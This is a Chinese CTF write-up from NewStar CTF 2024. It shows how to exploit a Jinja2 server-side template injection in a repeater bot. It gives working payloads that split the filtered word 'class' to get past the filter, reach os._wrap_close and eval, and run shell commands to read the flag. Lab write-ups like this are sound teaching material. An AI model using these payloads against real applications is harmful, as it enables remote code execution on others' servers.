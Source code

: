 ```yaml
---
titleTemplate: ":title | WriteUp - NewStar CTF 2024"
---
```


# 复读机

可以看到，输入什么就输出什么

输入 `{{ '{'+'{ 7*7 }'+'}' }}` 的时候，输出的结果是 49，说明存在 SSTI 注入

输入 `{{ '{'+'{ [].__class__}'+'}' }}`，发现 bot 显示不喜欢上课,说明 `class` 被过滤了，可以使用简单的拼接绕过

```python
{{[]['__cl'+'ass__']}}
```

得到 `list` 类

![简单的 SSTI](/assets/images/wp/2024/week2/fuduji_1.png)

后面就是基本的注入方法了

获取 `object` 类

```python
{{()['__cl'+'ass__']['__base__']}}
{{()['__cl'+'ass__']['__base__']['__subcl'+'asses__']()}}
```

![获取 object 类](/assets/images/wp/2024/week2/fuduji_2.png)

找一个可以利用的类，这里选用 `os._wrap_close`

```python
{{()['__cl'+'ass__']['__base__']['__subcl'+'asses__']()[132]}}
```

![获取 os._wrap_close](/assets/images/wp/2024/week2/fuduji_3.png)

然后就是拿到 `eval` 方法，命令执行就行

```python
{{()['__cl'+'ass__']['__base__']['__subcl'+'asses__']()[132]['__init__']['__globals__']['__builtins__']['eval']("__import__('os').popen('cat /flag').read()")}}
```

![命令执行](/assets/images/wp/2024/week2/fuduji_4.png)

方法很多，大家可以自己试试
